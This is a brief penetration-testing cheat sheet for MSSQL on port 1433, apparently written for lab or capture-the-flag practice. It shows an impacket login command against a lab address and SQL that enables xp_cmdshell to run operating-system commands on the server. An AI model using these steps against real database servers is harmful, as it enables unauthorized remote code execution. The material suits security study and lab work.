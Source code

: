 # Port 1433/tcp
## Stardard usage
 - MSSQL Server
<hr>

#### Establish connection
```bash
impacket-mssqlclient -p 1433 sql_svc@10.10.10.27 -windows-auth
```

#### Enable xp_cmdshell for RCE
```sql
-- this turns on advanced options and is needed to configure xp_cmdshell
EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
-- this enables xp_cmdshell
EXEC sp_configure 'xp_cmdshell', '1'
RECONFIGURE

EXEC xp_cmdshell 'dir *.exe';
```